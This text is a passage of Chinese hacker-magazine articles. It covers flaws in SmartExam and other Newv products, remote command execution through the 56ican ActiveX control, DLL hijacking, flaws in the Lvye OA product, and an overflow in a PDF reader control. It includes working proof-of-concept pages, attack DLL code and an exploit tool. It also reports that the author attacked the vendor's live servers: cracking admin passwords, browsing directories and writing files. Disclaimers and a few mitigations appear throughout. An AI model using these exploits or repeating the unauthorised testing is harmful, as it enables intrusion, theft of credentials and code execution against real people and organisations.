`/module/OneTabMain.aspx?MenuCode=exam_paper_and_policy_manage&MenuLink=exam/paper/PaperAndPolicyManage.aspx`，如图44所示，可以浏览生成的“固定”和“随机”试卷。


图44

#### 考试成绩查询

`/module/OneTabMain.aspx?MenuCode=exam_exam_grade_search&MenuLink=exam/exam/ExamGradeSearch.aspx`，如图45所示。


图45

#### 考生成绩查询

`/module/OneTabMain.aspx?MenuCode=exam_user_grade_search&MenuLink=exam/exam/ExamGradeAccountByExamTime.aspx`。

#### 考生答卷查看

`/exam/exam/UserPaperPreview.aspx?examGradeUid=528649f6-d06a-40ef-8814-521284f9895d`，如图46所示。只要知道 examGradeUid 就可以查看答卷，包括答案，然后使用链接“/exam/exam/JudgePaper.aspx?examGradeUid=”或“/exam/exam/JudgePaperByQuestion.aspx?examGradeUid=”进行手工或批量手工评卷。


图46

#### 用户管理

`/module/OneTabMain.aspx?MenuCode=framework_user_manage&MenuLink=framework/user/UserManage.aspx`，如图47所示。利用这个页面可以激活“待审批、禁用、锁定”等类型用户，甚至可以通过外部提交“chkIsAdmin=Y”，修改用户为管理员。


图47

- 导入用户：`/module/OneTabMain.aspx?MenuCode=framework_user_manage&MenuLink=framework/user/UserImportHZMobile.aspx`，如图48所示。利用这个页面可以新增用户，包括管理员，具体操作：① 执行“示例->下载模板”命令；② 编辑 excel 文档，添加姓名、登录名、密码（密码可以为空）等用户信息，选择“是否为管理员”为“y”，其他项为空；③ “浏览”并“载入”excel 文档；④ 当“格式检查”无误，如“格式检查完成，没有发现错误格式”时，即可进行“导入”，成功返回“操作完成，成功导入用户[1]人，导入失败[0]人。”

  注意：以这种方法增加的用户，虽然可以正常登录系统和后台管理，但是因为没有指定用户所属“组织名称”，所以不被管理员管理，也不能管理其他用户，比如“用户管理”、“在线用户”查询不到。


图48

- 在线用户：`/module/OneTabMain.aspx?MenuCode=framework_online_user_list&MenuLink=framework/user/OnlineUserList.aspx`。

### 工具编写

考虑开源共享，笔者放弃 Delphi，采用 CSS+DIV+JS 语言进行工具编写。工具名称：

SmartExam ODay 漏洞利用工具，设计界面如图49所示，功能包括：FileUpload.aspx 上传漏洞、FileManage.asmx 漏洞、UserInterface.asmx 漏洞、后台管理常用链接、Decrypto 解密源码等。


图49

- 关键技术：
  1. DIV 实现页面的框架栏目；
  2. XMLHttpRequest 对象的生成、调用及异常处理等；
  3. 全局变量 URL 的调用，比如表单 form 的 action、链接的 href 等动态修改；
  4. 根据不同的 Web 服务接口函数的参数，显示和设置不同的参数输入栏；
  5. 根据不同的 Web 服务接口函数，生成不同的 SOAP 格式数据；
  6. SOAP 方式提交数据，数据的特殊字符需要转义，如 `<`、`>` 必须用 ASCII 码值 `&#60;`、`&#62;` 代替；
  7. 返回数据的简单正则处理等。

部分代码如图50所示。使用时，请首先输入以 `http://` 开头的 URL，然后便可使用各个功能。


图50

功能扩展：采用 CSS+DIV+JS 语言的优点是：不需要编程环境进行编译，使用任何文本编辑器就可以修改，而且即改即用。为了方便以后对该工具进行功能扩展，本文给出几处修改要点如下。

1. 增加栏目，比如增加“Decrypto 解密源码”，如图51所示。


2. “FileManage.asmx 漏洞”栏目增加新函数调用，比如“DeleteFile 函数删除文件”。第1、2步如图52所示，第2步需要注意，如果 DeleteFile 函数只有一个参数 sSourceFile，而且表单“form_2”也没有这个参数 sSourceFile 的输入栏，这时需要新增一个 div，名称为“form_2_4”，内容是 sSourceFile 的 input 元素；第3步修改函数 ShowForm(m,n)，实现选择不同的操作函数，显示不同的参数输入栏，如图53所示。变量 m=2 表示与“FileManage.asmx 漏洞”有关，m=3 表示与“UserInterface.asmx 漏洞”有关，变量 n 为 select 元素当前所选中 option 的值，即当前所选中的操作函数，n=5 表示选中“DeleteFile 函数删除文件”，这时只显示参数 sSourceFile 的输入栏，代码为 `document.getElementById("form_2_4").style.display="block";`；第4步修改函数 createXML(m,n)，生成 SOAP 格式数据，如图54所示。


3. “UserInterface.asmx 漏洞”栏目增加新函数调用的修改方法与上面类似。

### 测试实例

本章重点使用“SmartExam 0Day 漏洞利用工具”（以下简称漏洞利用工具）对新为官网和其他软件进行实测。新为目前共有4种系统提供体验试用，如图55所示，但是试用账号必须通过申请才能获得，接下来我们使用漏洞利用工具逐一进行实测，不需要用户名直接秒杀。


### 测试 SmartExam

网址 URL 为“http://demo.newv.com.cn/exam”，使用“FileManage.asmx 漏洞”直接可以浏览网站目录，如图56所示，甚至可以浏览其他的分区和目录，如图57所示，毕竟 .NET 属于 Users 组权限。


图57

再使用“UserInterface.asmx 漏洞”获得管理员 admin 密码，并成功破解，如图58所示。


图58

使用“FileUpload.aspx 上传漏洞”，如果页面跳回登录界面，则说明网站不允许直接访问 FileUpload.aspx 页面，最后使用“WriteTextFile”函数写文件成功，如图59所示。


图59

测试 SmartLearning 学习发展系统（http://61.145.163.254:8091）、SmartBOS 学习运营系统（http://61.145.163.254:8089）、LiveLearning 培训会议系统（http://61.145.163.254:8095）全部通过，可以浏览磁盘分区、目录、文件，还可以写入、删除文件和破解管理员密码，后面两个系统允许不登录用户直接访问 FileUpload.aspx 页面。

### 2. 测试新为门户网站（www.newv.com.cn）

我们注意到新为门户网站的页面链接中存在敏感字符“fileroot”，如图60所示，SmartExam 系统用这个目录保存用户上传文件。通过进一步尝试，我们不难发现新为门户网站的目录结构与 SmartExam 等系统十分相似，可以这样推测：新为的门户网站使用了 SmartExam 系统（或者是某种改版），其核心代码也应该相同。


图60

访问 FileUpload.aspx 页面，跳转到登录界面，如图61所示，确认为 SMARTBOS 系统。


图61

直接使用漏洞利用工具进行测试，可以浏览目录和文件、写一句话、获得加密密码，但是在使用 Decrypto.aspx 破解密码时出现异常错误，页面显示“Invalid length for a Base-64 char array.”，如图62所示。


图62

这是因为密文中存在“+”字符，用 Request 方式接收，“+”字符会漏掉，将“+”字符改为“%2b”，重新破解密码成功，如图63所示。


图63

回顾整个漏洞分析过程，从貌似坚不可摧到弱不禁风，好像 SmartExam 系统与我们开了个莫大的玩笑，真可谓天壤之别，而这一切竟源于 SmartExam 2008——一个几年前的尘封版本。再次证明了开源与安全的辩证关系，也印证了“堡垒最容易从内部被攻破”的哲理。有了 SmartExam 2008 源码，我们可以顺藤摸瓜，对 2010 等版本也窥一斑而知全豹，再根据 SmartExam 按图索骥对新为的其他软件如 SmartLearning、SmartBOS 等有所了解。同时也反映出几点信息：新为各种版本之间的差异不是很大，包括跨平台之间，如 SmartLearning、SmartBOS、SmartExam 等，这样做虽然研发效率很高，但是安全性能大打折扣，一旦有一款产品出现问题，将蔓延至整个产品体系。

本文虽然从 SmartExam 2008 入手，但是引发的安全问题涉及新为的整个产品体系，从系统安全到数据安全。考虑到漏洞危害较大，而新为使用 dll 进行源码保护，普通用户不可能对系统进行深层次的漏洞防护，只能等待新为对产品进行修补升级，这里笔者仅给出一些简单的防护措施作为应急。

1. 在后台的系统设置中，给“禁止上传的文件类型”（默认为“exe;bat;cmd;scr;com”）添加“aspx;asmx;asp;asm;ashx”等文件类型；
2. 修改“调用 Web 服务的用户名和密码”（默认为“system 和 system123456”）；
3. 对于 SmartExam 2010 版本，修改 new.sso.dll.config 文件，禁止不登录用户直接访问 FileUpload.aspx 页面；
4. 删除或更名所有 Web 服务的 asmx 文件，如 FileManage.asmx、UserInterface.asmx、ExamInterface.asmx、DistInterface.asmx 等。

由于新为存在跨目录和用户权限验证不严的先天缺陷，导致普通用户可以跨目录上传文件和任意访问后台页面文件。SmartExam 2010 版本也仅在“/framework/desktop/Back*.aspx”一些框架页面中判断是否为管理员，其他后台页面文件依然可以任意访问，因此即便做过以上的漏洞防护措施，也无法防止内部用户的非法使用，比如访问后台页面文件，甚至利用 ResFileManager.aspx、HtmlEditor.aspx 上传文件，然后更名进行挂马。但是这种情况也只是局限在内部用户，危害程度明显减小许多。

> （声明：本文涉及的漏洞利用工具仅供学习和研究，请勿用于非法用途，因此引发的法律纠纷与笔者无关。）

前置知识：C

关键词：ShellExecuteW


## 解密 56ican 远程执行任意程序漏洞

图/文 爱无言

56ican 是由 56 网站开发的一款便于用户上传、下载视频文件的工具软件，测试发现该软件在安全方面存在诸多问题，这里我们对该软件的最新版本 1.3.0 进行了同样的测试，发现问题依旧存在。其中，最新版本的 56ican 其使用界面如图1所示。


图1

当我们在系统中安装了 56ican 后，该软件向系统注册了多个 ActiveX 控件，这其中有一个名为“IESuport.dll”的文件，它注册的 ActiveX 控件类名为“IESuportLib”。该控件类只有一个外部接口函数，名为“CallICan”，其函数原形如下。

```vb
Sub CallICan (
    ByRef url As String
)
```

从参数名称来看，“url”代表网址，而函数名称看起来似乎又类似一个调用性质的函数。在无法推断该函数的作用时，我们写一个测试网页来看一看效果，测试代码如下。

```html
<object
 classid="clsid:7B001844-0E6A-429A-B014-3BCE8765C470"
 name="evil"></object>
<script>
 evil.CallICan("http://www.baidu.com");
</script>
```

当我们将这个网页放置在测试用的 Web 服务器上，用 IE 浏览器访问时，IE 浏览器会给出一个安全提示，如图2所示。


图2

并打开百度的网站，如图3所示。


图3

这令我们很好奇，一般来说像打开网址这样的行为，从编程角度来看，就是调用了一个带有执行命令性质的函数，诸如 ShellExecuteW。如果真的是这样，那么，就意味着 56ican 的 ActiveX 控件存在着很严重的安全漏洞，我们可以借助“CallICan”来运行任意程序。现在，我们就写一个测试网页来看看效果，代码如下。

```html
<object
 classid="clsid:7B001844-0E6A-429A-B014-3BCE8765C470"
 name="evil"></object>
<script>
 evil.CallICan("cmd.exe");
</script>
```

将这个测试网页上传到 Web 服务器上，再次用 IE 浏览器访问该测试网页，效果如图4所示。


图4

看到这样的画面实在令人吃惊，我们完全可以借助 56ican 来实现在用户的系统上远程运行任意程序。但是，这个结果到底是什么原因造成的呢？借助 OllyDbg，我们找到了原因，如图5所示。


图5

56ican 的 “IESupport.dll” 文件果然调用了 ShellExecuteW 函数，这个函数是一个非安全函数，尤其是在 ActiveX 控件中使用它时。通过在 OllyDbg 中回溯跟踪，我们发现了问题所在，如下所示。

```c
ShellExecuteW(NULL, "open", ecx, 0, 0, SW_SHOW);
```

原来 56ican 的 “CallICan” 接口直接调用了 ShellExecuteW 函数，其 ecx 寄存器指向的内容就是我们在网页中传递给 “CallICan” 接口的参数。使用 VC 代码进行书写类似如下。现在，明白了上面的原理，漏洞的利用代码就可以结合实际情况来进行编写了。最后，该漏洞对于过去版本的 56ican 都存在，本文旨在讨论该漏洞形成的原因，请不要使用该漏洞进行任何违法活动，否则作者与杂志概不负责。


前置知识：无

关键词：DLL 劫持

## 计算机网络安全之 DLL 劫持漏洞详解


图/文 刘晓明

近期网络机房电脑大范围中毒，病毒文件为“USP10.DLL”，该病毒繁殖能力强，很容易复发。在分析此病毒后，发现该病毒利用的漏洞正是被业界称为“未明漏洞”的 DLL Hijack 漏洞（DLL 劫持漏洞），此漏洞影响较大，很多病毒都采取这种技术攻击用户电脑，让广大网管员们头痛不已。本文深入分析了该漏洞的形成原理并通过编写攻击文件验证此漏洞的危害，最后提出应对方案，希望对朋友们有所帮助。

### 一、DLL 劫持漏洞原理与攻击文件构造

### 1．原理分析

当一个可执行文件运行时，Windows 加载器将可执行模块映射到进程的地址空间中，加载器分析可执行模块的输入表，并设法找出任何需要的 DLL，并将它们映射到进程的地址空间中。

由于输入表中只包含 DLL 名而没有它的路径名，因此加载程序必须在磁盘上搜索 DLL 文件。而这里 DLL 文件的搜索遵循以下顺序：

- 1. 可执行程序加载的目录。
- 2. 系统目录。
- 3. 16 位系统目录。
- 4. Windows 目录。
- 5. 当前工作目录。
- 6. PATH 环境变量中列出的目录。

这个就是 Windows 系统的目录优先权。利用这一特点，攻击者先伪造一个与系统同名的 DLL，提供同样的导出表，每个导出函数转向真正的系统 DLL。程序调用系统 DLL 时会先调用当前目录下伪造的 DLL，完成相关功能（恶意代码或程序补丁）后，再跳到系统 DLL 同名函数里执行。这个过程用个形象的词来描述就是系统 DLL 被劫持（Hijack）了。

### 2．攻击文件构造

- 1. 了解了 DLL 劫持具体原理后，就让我们来动手编写攻击文件，再现 USP10.DLL 病毒。测试环境：Windows XP SP3 5.1.2600 Service Pack 3 Build 2600。编程环境：Delphi 2007。工具软件：ViewDLL，进程查看器。
- 2. 用 Delphi 2007 新建一个 DLL 工程，命名为 USP10。
- 3. 运行 ViewDLL 软件，加载系统目录下的正常 USP10.DLL 文件，记下该 DLL 文件的所有导出函数名，如图 1 所示。


- 4. 用 Delphi 2007 编写代码，构造与真正 USP10.DLL 文件相同的导出表，完成所有导出函数的转发，编写攻击代码。

这里只是做演示，所以攻击代码只是简单地运行一个程序。

```c
WinExec('notepad.exe','sw_normal');  // 运行记事本程序
```

由于篇幅原因以下只列出关键代码。

```pascal
// 定义转发目标指针：
var
POldLpkPresent: Pointer;
POldScriptApplyDigitSubstitution: Pointer;
POldScriptApplyLogicalWidth: Pointer;
...
// 填充转发指针：
ModHandle:= LoadLibrary('C:\WINDOWS\system32\usp10.dll');
if ModHandle > 0 then
begin
  POldLpkPresent:= GetProcAddress(ModHandle,'LpkPresent');
  POldScriptApplyDigitSubstitution:= GetProcAddress(ModHandle,'ScriptApplyDigitSubstitution');
  POldScriptApplyLogicalWidth:= GetProcAddress(ModHandle,'ScriptApplyLogicalWidth');
  ...
```

```pascal
// 完成转发过程：
procedure LpkPresent; asm jmp POldLpkPresent end;
procedure ScriptApplyDigitSubstitution; asm jmp POldScriptApplyDigitSubstitution end;
procedure ScriptApplyLogicalWidth; asm jmp POldScriptApplyLogicalWidth end;

// 构造导出表：
exports
  LpkPresent,
  ScriptApplyDigitSubstitution,
  ScriptApplyLogicalWidth,
```

完成整个模板编写后就可以把攻击代码加入执行过程完成测试文件的构造了。这里要注意的是在调用函数完成攻击过程时不可用到所劫持 DLL 导出的函数，也就是如果要劫持 USP10.DLL 文件，那就不能用 USP10.DLL 所提供的任何函数。

（4）测试攻击效果。测试 EXE 文件选用系统自带的计算器程序 CALC.EXE，把编译好的 USP10.DLL 文件复制到和 CALC.EXE 同一目录下，运行 CALC.EXE，这时会发现不光是运行了计算器程序，记事本程序也同时运行起来了，如图 2 所示。


用进程查看器查看 CALC.EXE 进程，如图 3 所示。


发现计算器程序确实先加载了我们构造好的 USP10.DLL，然后由伪装后的 USP10.DLL 加载了真正的 USP10.DLL。

通过以上测试，我们发现 DLL 劫持漏洞确确实实存在，而且造成的后果非常严重，但是此漏洞仅仅存在于 Windows 操作系统内部吗？答案是否定的！

### 二、新型 DLL 劫持漏洞原理与攻击文件构造

2010 年 8 月 24 日，微软发布安全公告 2269637，提到三方软件编程不安全，存在一个 DLL 劫持的缺陷可以导致远程攻击。

2010 年 8 月 24 日，流行的漏洞信息共享网站 exploit-db 马上就爆出多个 DLL 劫持漏洞，涉及的软件有：Wireshark（免费嗅探器）、Windows Live Email（邮箱客户端）、Microsoft MovieMaker（视频编辑处理）、Firefox（网页浏览器）、uTorrent（BT 下载工具）、PowerPoint 2010（办公软件）等。

2010 年 8 月 25～26 日，漏洞信息共享网站 exploit-db 继续爆出 Winamp、Google Earth、Photoshop 等软件存在 DLL 劫持漏洞。

在安全组织 exploit-db 公布的存在 DLL 劫持漏洞的软件列表中，AutoCAD 2007、Daemon tools、Winamp、Media Player Classic、Mozilla Thunderbird、Microsoft Office、Adobe Photoshop、Adobe Dreamweaver CS5、Skype、Safari、WinDVD、Opera、Firefox 等都位列其中。安装了上述软件的电脑，当用户在打开一个图片、音乐、视频、BT 种子、网页文件时都有可能感染病毒。当攻击者利用 DLL 劫持漏洞构造一个特殊的 DLL 文件，将这个 DLL 文件打包到一些 JPG、PPT、MP3、MPG、HTML 文件中分发，用户解压后双击打开这些文档，病毒即被立即触发。

### 1．新型 DLL 劫持漏洞形成原理

应用程序为了扩展或者兼容等目的需要加载相应的 DLL 文件，但是因为某些原因导致这个 DLL 文件默认不存在于当前系统，此时就会尝试加载文档所在目录下的恶意 DLL 文件，从而达到破坏的作用。这里运行的文档（如 MP3）相当于触发者，根据文件关联它会启动一个应用程序去播放 MP3 文件。而因为应用程序存在 DLL 劫持漏洞（如 Winamp），此时 Winamp 就会因为设计上的不足导致其成为恶意 DLL 的加载器。新型 DLL 劫持漏洞构成的危害简直达到了只要运行图片或音频文件就会执行恶意代码的地步。

### 2．攻击文件构造

为了更好地说明新型 DLL 漏洞的危害性，我们来具体演示一下，这里选取的软件为 Microsoft Office 2007 中的 Word 软件。

测试环境：Windows 7 6.1.7601 Service Pack 1 Build 7601。  
编程环境：Delphi 2007。  
工具软件：漏洞检测软件。

- 1. 用漏洞检测软件检测 Word 2007，发现在 DLL 劫持漏洞，检测报告如下。


| Index | Extension | DLL Name | Vulnerable Status | Exploitable Status |
|---|---|---|---|---|
| 1 | doc | 6TUim****.dll U6T | Vulnerable | Exploitable |
| 2 | docx | 6TUim****.dll U6T | Vulnerable | Exploitable |

从以上报告可以看到 Word 2007 在打开 DOC 或 DOCX 文档时引发了 DLL 劫持漏洞，漏洞文件为 IM****.DLL（为了安全，这里将具体文件名隐去，请谅解）。

- 2. 用 Delphi 2007 软件编写代码。这里只写攻击代码即可，不用再完全按照原 DLL 构造导出表了（会引起软件崩溃，只是测试）。

```pascal
library im****;
uses
  windows;
begin
  MessageBox(0,'测试成功，存在漏洞！','DLL 劫持漏洞测试',MB_OK);
end.
```

- 3. 测试攻击效果。在任意目录下新建 DOC（DOCX）文档，将编译好的伪造 IM****.DLL 复制到同一目录下，运行 DOC（DOCX）文档，如图 4 所示。


可以看到 Word 2007 确实存在 DLL 劫持漏洞，造成的结果是，你在打开一个 Word 文档的时候病毒却已在后台监视你的一举一动！同时给出常用软件 Photoshop CS3 的漏洞测试截图，如图 5 所示。


图 5 Photoshop CS3 漏洞测试

新型 DLL 劫持漏洞造成的影响比老式 DLL 劫持漏洞更广泛，而面对如此严重的漏洞，微软没有提供有效的免疫方案可以使用，只能靠使用者小心为妙了。

### 三、应对 DLL 劫持

DLL 劫持利用系统未知 DLL 的搜索路径方式，使得程序加载当前目录下的系统同名 DLL。所以可以首先告诉系统 DLL 的位置，改变加载系统 DLL 的顺序不是当前目录，而是直接到系统目录下查找。这个想法可以通过修改注册表实现。键值 “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs” 是调用系统 DLL 的首要查找目录。例如，里面有 REG_SZ 类型的 “ntdll” = “ntdll.dll” 项，则系统载入 “ntdll” 时会直接从系统目录加载。因此，添加 “usp10” = “usp10.dll” 即可防止 USP10.DLL 被劫持，同理可以阻止一些其他 DLL 被劫持。

在 Windows XP 系统下默认只有少数关键 DLL 在此键值中，Windows 7 下面此键值已经相当齐全，在 Windows 7 系统下发生 DLL 劫持的概率要比 XP 小很多，因此可以考虑升级操作系统到 Windows 7。

对于新型 DLL 劫持，因为没有十分有效的应对方式，所以用户要养成运行文档（图片、音乐、视频、网页文件等）前检查目录下文件的习惯，开启显示隐藏文件和显示系统文件选项，防止通过应用程序加载恶意 DLL。

本文通过 USP10.DLL 病毒引入了 DLL 劫持漏洞的概念，从原理上分析漏洞形成的原因、利用方法和解决方案。希望对从事相关工作的朋友有所帮助，如对本文有不同看法或是需要相关资料可以与本人联系。

前置知识：HTML

关键词：OA 漏洞

## 潜伏在办公室里的攻击


图/文 爱无言

最近在做一个项目，中间需要使用办公协同软件，也就是 OA 系统，看了看公司的安装清单，上面选择的 OA 产品是“绿叶 OA”，这个产品不是太熟悉，于是上网下载了该产品的最新版“绿叶 OA 王协同管理软件 2011”，没想到这个 OA 系统还是百度的推广者，名气不小，使用的企业数量很多。我下载的虽然是一个试用版，但是我想在功能上与正式版不会存在较大差异。本着对公司负责的态度，我决定对该系统进行一下简单的安全测试。

在自己的电脑上安装了“绿叶 OA 王协同管理软件 2011”，该软件自带了 SQL Server 2000 的数据库，并且自动安装 IIS，看样子是采用了 Web 方式来进行运作。安装完毕后，在系统桌面上会生成一个名为“登录绿叶 OA 王协同管理软件 2011 试用版”的快捷方式，双击该快捷方式，我们看到了“绿叶 OA 王协同管理软件 2011”的登录界面，如图 1 所示。


清爽的界面让人感到亲切，登录框在测试中发现也不存在明显的 SQL 注入点，于是，用系统自带的测试账户 id 登录系统（这里 id 的密码不是默认的 666666，我利用后台修改了一下才正常登录），如图 2 所示。


从图 2 中能够看出，绿叶 OA 系统的功能还是比较全面的，许多地方考虑得比较符合公司业务需要，我们对其中的超级链接地址做了简单的 SQL 注入测试，结果发现系统似乎对注入攻击有着一定的防范，会提示你非法访问，看来绿叶 OA 系统的开发者还是具有一定安全意识的。

测试中发现，绿叶 OA 系统是支持企业内部员工之间互通消息的，如图 3 所示。


看到图 3 的界面，我相信很多读者就要喊了：这不是 FCKeditor 吗？绝对有漏洞！没错，绿叶 OA 系统在系统中集成了 FCKeditor 编辑器，其目的很多，其中有一项就是向系统用户提供富文本的消息编辑功能，这就造成了巨大的安全隐患。图 3 中有一个“源代码”编辑按钮，单击此按钮，我们就可以在消息内容中加入任意脚本代码，当系统用户收到这封带有脚本代码的消息时，恶意攻击也就随之展开了，如图 4 所示。


图 4 的效果就是我们在消息内容中插入了一段简单的脚本代码：`<iframe src=xx>`。这段代码可以引入任意网址的内容到当前页面中，如果是网页木马的网址，那么后果可想而知。我在一个办公室给你发个消息，你只要一看该消息，你的电脑就莫名其妙地中毒了，这对于财务、人事这样的科室来说，可是巨大的损失。

问题似乎不仅仅限于以上的这个漏洞，当我翻看到绿叶 OA 系统提供的“网络硬盘”功能时，我真的很吃惊，如图 5 所示。


请问各位这像不像是一个 WebShell 提供的文件管理界面，随意单击其中一个文件夹，我们发现浏览器地址栏中的 URL 地址类似于这个样子：

```txt
http://192.168.1.117/tcoall/file/explorer.asp?path=%2Fdataandfiles%2Ffiles%2Fu%2Fnetdisk%2F...
```

这其中，path 参数所代表的就是被访问的文件目录相对路径地址，虽然被编码了，我们依旧可以利用这个地址来突破访问权限。在该地址后面我们添加了几个“%2e%2e%2f”，即所谓的“../”，这个代表父目录的字符组合。再次访问这个新的 URL 地址，不可思议的一幕发生了，如图 6 所示。


图 6

绿叶 OA 的其他漏洞这里就不再一一描述了，有兴趣的读者可以自己动手练习一下漏洞挖掘。本文旨在讨论技术，任何违法行为与作者和杂志无关。最后，在绿叶 OA 的官方网站上做了一下测试，效果如图 7 所示。


图 7

我们成功跨越了目录限制，访问到了服务器上任意的文件夹，图 6 中的那个“下载”选项又为我们入侵服务器提供了方便，还有就是“上传文件”按钮，我们可以将最好的 WebShell 拿出来传到服务器上，然后就随心所欲地控制公司内部的服务器了，危害可想而知。

上面两个漏洞，一个可以用来攻击办公室里的用户，另外一个可以直接攻击服务器，窃取公司机密，甚至可以伪造自己为管理员，或者公司领导，借助 OA 系统来发布恶意误导信息，造成公司的混乱，要知道，现在商业机密的价值巨大，商业上的破坏活动日益频繁，要是自己公司用的 OA 系统这样不可靠，相信老总也要考虑一下了。

真心希望绿叶 OA 的开发者能够及时修复漏洞，让自己的产品能够更好地为 OA 使用者提供服务，成为 OA 系统开发商中的佼佼者。

前置知识：汇编

关键词：PDF 漏洞

## “优看”PDF 在线阅读控件远程代码执行漏洞


图/文 爱无言

朋友的公司要做一个项目，其中需要在网页中打开 PDF 文件，所以准备购买一款在线阅读 PDF 文件的控件产品。经过调研，他们准备选择国内一款名为“优看”的在线阅读 PDF 文件的控件产品。

这款产品是由西安优看电子科技有限公司开发的，在朋友公司的初步测试中，该产品符合项目需要，安全测试结果也比较理想。

较满意，但是，朋友还是不够放心，于是邀请我测试一下，以防万一。

从西安优看电子科技有限公司的官方网站上，我们下载了优看 PDF 在线阅读控件的最新版本，该版本以压缩包形式发布，解压后可以获得 4 个文件，其中名为“PDFView.cab”的文件就是核心控件，而“PDFTest.html”则是一个由官方提供的测试网页文件。在本地计算机上利用 ASP 本地测试工具搭建了一个 Web 测试环境，用记事本程序打开“PDFTest.html”，我们需要修改其中的一些参数，主要有以下几个地方。

```html
<object id="YCanPDF"
classid="clsid:474C1AB2-EFA5-4A19-9267-BA38B685C74A"
codebase="http://127.0.0.1/pdfview.cab#version=3,4,0,0"
width="780" height="500">
function OpenURL()
{
    YCanPDF.SetRCURL("http://www.ycanpdf.cn/rc/SCTC_JP_KR.CAB",0);// 加载字体资源，只支持绝对路径
    var n=YCanPDF.SetURL("http://127.0.0.1/YCanPDF PDFView OCX 3.4.0.0 接口文档.pdf","");// 打开网络的PDF文件
}
```

原本的网址是指向优看官方网站的，这里因测试需要，我们暂时修改为了本地计算机的回环地址，即 127.0.0.1。

将优看 PDF 在线阅读控件压缩包文件全部解压到 Web 目录下，运行浏览器访问“PDFTest.html”文件，此刻会出现一个安装控件的提示，如图 1 所示。


图 1

直接单击“安装”按钮，系统会自动注册优看 PDF 在线阅读控件。控件注册完毕后，单击“打开网络”按钮，这时我们就可以在浏览器中看到“YCanPDF PDFView OCX 3.4.0.0 接口文档.pdf”文件的内容了，如图 2 所示。


图 2

通过“YCanPDF PDFView OCX 3.4.0.0 接口文档.pdf”文件，我们可以知道优看 PDF 在线阅读控件有 34 个外部接口函数，并且其参数大部分都是字符串类型，这其中很多都代表文件的名称，如 `long SetFileName(LPCTSTR filename, LPCTSTR password, long lParams)`，这个外部接口中，第一个参数 filename 就代表着要被打开的 PDF 文件名称。之所以非常关心这些参数的类型和意义，是想要测试发现优看 PDF 在线阅读控件会不会存在缓冲区溢出漏洞。可是，在实际的测试中，我们发现优看 PDF 在线阅读控件对超长的字符串文件名称做了一定防范，或者说不是防范而是借助系统函数本身处理错误的机制避免了缓冲区溢出漏洞的发生。举个例子来说明一下，例如我们给 `long SetURL(LPCTSTR szFilePath, LPCTSTR szPassword);` 这个用来打开网络上 PDF 文件的外部接口传递一个超长的文件名参数 szFilePath，在测试中，浏览器就会给出下载失败的提示，如图 3 所示。


图 3

看了上面的测试结果，我们似乎不指望能够发现优看 PDF 在线阅读控件的什么安全漏洞了。但是，安全测试需要严谨的态度，我们前面只是对优看 PDF 在线阅读控件的外部接口函数做了单独测试，并没有将这些参数结合起来进行系统化的测试，所以，我们的测试还不全面，不能轻言放弃测试。

## 漏洞攻防

发现了一个有趣的外部接口函数：`long SearchStr(LPCTSTR strKey, long bCaseSensitive, long bAllPages)`。该函数的作用是在打开的 PDF 文件中搜索指定的字符串。如果单独调用这个函数，并传递给它一个超长字符串，测试代码为：`var a=Array(60000);YCanPDF.SearchStr(a,0,0);`，浏览器只会提示“没找到”，如图 4 所示。

终于看到了一个出错的画面，图 5 中的“0x2c2c2c2c”这个内存地址显然来自于我们测试代码中的变量 a。从出错提示，我们推断变量 a 覆盖了程序一个关键的内存地址，造成了程序发生读取内存地址失败的错误。要想知道更加细节的原因，我们可以使用 OllyDBG 程序来进行调试，如图 6 所示。


图 4


图 6

出现这样的结果原因很简单，主要是由于当前没有打开任何 PDF 文件，搜索函数无法正常运行。现在，我们修改一下代码，首先利用 `long SetURL(LPCTSTR szFilePath, LPCTSTR szPassword);` 外部接口打开网络上的某个 PDF 文件；然后再调用 `long SearchStr(LPCTSTR strKey, long bCaseSensitive, long bAllPages)` 外部接口查找一个过长字符串，看一看会有什么结果。具体测试部分代码如下。

```javascript
function OpenURL()
{
    var a=Array(600);
    var n=YCanPDF.SetURL("http://127.0.0.1/YCanPDF PDFView OCX 3.4.0.0 接口文档.pdf",""); // 打开网络的 PDF 文件
    YCanPDF.SearchStr(a,0,0);
}
```

这一次，使用浏览器打开修改后的测试网页文件，单击“打开网络”按钮，我们得到新的结果，如图 5 所示。


图 5

从图 6 中可以看到在出错时，ECX 寄存器被变量 a 所覆盖。程序运行到“`mov edx,dword ptr[ecx]`”这条指令时，由于无法读取 ECX 寄存器所指向的内存地址，从而发生了读取错误。但是，此刻，我们发现在出错指令的下方第 3 行的位置，有一条指令“`call eax`”，如果我们可以控制 EAX 寄存器，就可以执行任意代码了。而在这条指令之上，我们可以发现 EAX 寄存器的值取决于 EDX 寄存器，而 EDX 寄存器的值就来自于前面被我们覆盖的 ECX 寄存器！至此，我们终于明白了，EAX 寄存器的值来自于 `[[ECX]]`，也就是 EAX 寄存器的值间接地来自于 ECX 寄存器所指向的内存地址。

我们可以这样构造攻击代码，首先通过 heapspray 覆盖一片内存，如 `0x0c0c0c0c`，这片内存地址又被 `0x0c0c0c0c` 这样的数值所填充，在 ECX 寄存器被 `0x0c0c0c0c` 这个内存地址所覆盖后，两次 mov 指令最终还是指向了 `0x0c0c0c0c` 这个内存地址，只要将 ShellCode 放置在这个内存地址块的最后，当“`call eax`”指令被执行时，我们的 ShellCode 最终也会被顺利执行。还有一种比较难的方法，就是找到一个内存地址能够间接间接地指向一条 `call ebx` 或者 `jmp ebx` 指令，注意这里是两个间接，因为出错的时候，EBX 寄存器指向的正好就是变量 a 所在的栈空间地址。这个内存地址的寻找需要大量的时间，我暂时没有找到，有兴趣的读者可以自行寻找测试一下，也算是一个挑战吧！现在，漏洞被我们发现了，exploit 的代码构造思路也有了，相信写出一个攻击代码是非常简单的事情了。不过需要说明的是，这种攻击代码在 IE 6 浏览器下应该会顺利执行，IE 7、IE 8 的 DEP 会阻止代码执行，需要绕过 DEP 才行，所以，我想我们可以借助 Java 来实现最完整的攻击代码，具体细节可以参考王清那本《0day 安全：软件漏洞分析技术（第二版）》，这里就不再赘述了。

最后，本文旨在讨论安全技术，请读者不要使用本文技术进行任何违法行为，一切后果作者和杂志概不负责。同时，希望西安优看电子科技有限公司能够尽快修补漏洞，为广大客户提供更加可靠优秀的 PDF 阅读控件产品。

## Web Office 控件漏洞大曝光


图/文 爱无言

Web Office 控件广泛用于办公自动化软件当中，如各类 B/S 模式的 OA（办公自动化系统）。现如今，政府、企业当中使用办公自动化软件的程度越来越高，大量的应用集中在对 Office 文档的在线处理任务上，于是，Web Office 控件就成了香饽饽。

